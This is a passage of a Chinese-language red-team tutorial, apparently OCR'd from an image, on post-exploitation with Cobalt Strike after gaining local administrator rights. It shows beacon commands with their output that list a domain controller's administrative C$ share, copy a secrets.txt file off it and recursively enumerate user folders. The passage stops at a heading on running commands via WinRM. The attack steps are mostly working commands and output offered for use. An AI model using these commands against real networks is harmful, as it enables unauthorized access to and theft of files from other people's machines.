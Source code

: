 3、无需恶意软件 #
如果一个系统信任我们为本地管理员权限，那么我们可以在那个系统上干什么呢？

查看共享文件

比如我们可以通过运行下面的命令来列出 C:\foo 的共享文件
```bash
shell dir \\host\C$\foo
beacon> shell dir \\WinDC\C$
[*] Tasked beacon to run: dir \\WinDC\C$
[+] host called home, sent: 55 bytes
[+] received output:
 驱动器 \\WinDC\C$ 中的卷没有标签。
 卷的序列号是 F269-89A7
 \\WinDC\C$ 的目录
2020/06/24  09:29    <DIR>          inetpub
2009/07/14  11:20    <DIR>          PerfLogs
2020/07/16  21:24    <DIR>          Program Files
2020/07/16  21:52    <DIR>          Program Files (x86)
2020/07/17  23:00    <DIR>          Users
2020/07/26  00:55    <DIR>          Windows
               0 个文件              0 字节
               6 个目录 28,500,393,984 可用字节
复制文件

比如运行下面的命令将 secrets.txt文件复制到当前目录。

shell copy \\host\C$\foo\secrets.txt
beacon> shell copy \\WinDC\C$\foo\secrets.txt
[*] Tasked beacon to run: copy \\WinDC\C$\foo\secrets.txt
[+] host called home, sent: 93 bytes
[+] received output:
已复制         1 个文件。
查看文件列表

比如运行下面的命令。其中 /S 表示列出指定目录及子目录所有文件，/B 表示使用空格式，即没有标题或摘要信息。

shell dir /S /B \\host\C$
beacon> shell dir /S /B \\WinDC\C$\Users
[*] Tasked beacon to run: dir /S /B \\WinDC\C$\Users
[+] host called home, sent: 67 bytes
[+] received output:
\\WinDC\C$\Users\administrator
\\WinDC\C$\Users\Classic .NET AppPool
\\WinDC\C$\Users\Daniel
\\WinDC\C$\Users\Public
\\WinDC\C$\Users\administrator\Contacts
\\WinDC\C$\Users\administrator\Desktop
\\WinDC\C$\Users\administrator\Documents
\\WinDC\C$\Users\administrator\Downloads
\\WinDC\C$\Users\administrator\Favorites
……内容过多，余下部分省略……
```
使用 WinRM 运行命令
